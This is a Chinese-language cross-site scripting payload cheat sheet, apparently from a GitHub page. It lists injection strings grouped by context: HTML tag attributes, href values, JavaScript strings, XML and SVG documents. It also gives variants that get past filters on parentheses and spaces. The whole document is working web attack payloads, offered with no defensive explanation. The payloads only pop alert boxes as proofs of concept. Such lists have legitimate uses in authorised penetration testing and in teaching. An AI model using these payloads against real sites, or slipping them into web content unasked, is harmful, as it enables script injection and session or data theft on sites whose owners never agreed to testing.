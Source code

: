 **标签内**
```
name="><script>alert(1)</script>
name=1" id=javascript:alert(1) autofocus onfocus=location=this.id xx="
```

**在href=中**
```
name=javascript:alert(1)
```

**在js中**
```
name=</script><script>alert(1)</script>
name=';alert(1)//
name='-alert(1)-'
name=';};alert(1);function a(){a='
```

**在xml中**
```
<?xml version="1.0"?><a xmlns:a='http://www.w3.org/1999/xhtml'><a:body onload='alert(/XSS/)'></a>

<?xml version="1.0"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>alert(1);</html:script></html:html>
```

**svg**
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" width="100px" height="100px" viewBox="0 0 751 751" enable-background="new 0 0 751 751" xml:space="preserve">  <image id="image0" width="751" height="751" x="0" y="0"
    href="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAu8AAALvCAIAAABa4bwGAAAAIGNIUk0AAHomAACAhAAA+gAAAIDo" />
<script>alert(1)</script>
</svg>
```

**当过滤了圆括号**
```
<script>alert`1`</script><video src onerror=a="%2",location="javascript:aler"+"t"+a+"81"+a+"9"><video src onerror="javascript:window.onerror=alert;throw 1">
```

**当过滤了空格**
```
假设payload如下： 

html><imgAAsrcAAonerrorBB=BBalertCC(1)DD</html>

A位置可填充/，/123/，%09，%0A，%0C，%0D，%20 
B位置可填充%09，%0A，%0C，%0D，%20 
C位置可填充%0B，如果加双引号，则可以填充/**/，%09，%0A ，%0C，%0D，%20 
D位置可填充%09，%0A，%0C，%0D，%20，//，>
```
